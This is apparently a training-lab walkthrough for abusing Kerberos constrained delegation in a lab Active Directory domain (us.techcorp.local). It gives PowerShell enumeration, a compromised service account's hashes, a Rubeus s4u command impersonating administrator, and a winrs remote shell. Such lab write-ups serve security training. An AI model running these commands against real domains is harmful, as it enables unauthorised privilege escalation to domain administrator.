

# Hands-on 12: Constrained Delegation

- [Hands-on 12: Constrained Delegation](#hands-on-12-constrained-delegation)
  - [Task](#task)
  - [Abuse Constrained delegation in us.techcorp.local to escalate privileges on a machine to Domain Admin](#abuse-constrained-delegation-in-ustechcorplocal-to-escalate-privileges-on-a-machine-to-domain-admin)

---

## Task

- Abuse Constrained delegation in `us.techcorp.local` to escalate privileges on a machine to Domain Admin.

<br/>

---

## Abuse Constrained delegation in us.techcorp.local to escalate privileges on a machine to Domain Admin

Import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

<br/>

Enumerte computer / user with Unconstrained Delegation:

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

  

- `us\appsvc` has Constrained Delegation

<br/>

In [Hands-On 10](l10-Exchange.md), we have compromised `us\appsvc` credential:

Note:
`us\appsvc`
- Password: ?
- AES256: `b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335`
- NTLM: `1d49d390ac01d568f0ee9be82bb74d4c`

<br/>

Use **Rubeus.exe** to request TGT and TGS on `us-mssql`:

```
.\Rubeus.exe s4u /user:appsvc /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

  

  

<br/>

Try to access `us-mssql`:

```
winrs -r:us-mssql.us.techcorp.local cmd.exe
```

  
 

- As shown, we can access `us-mssql` as `us\administrator`.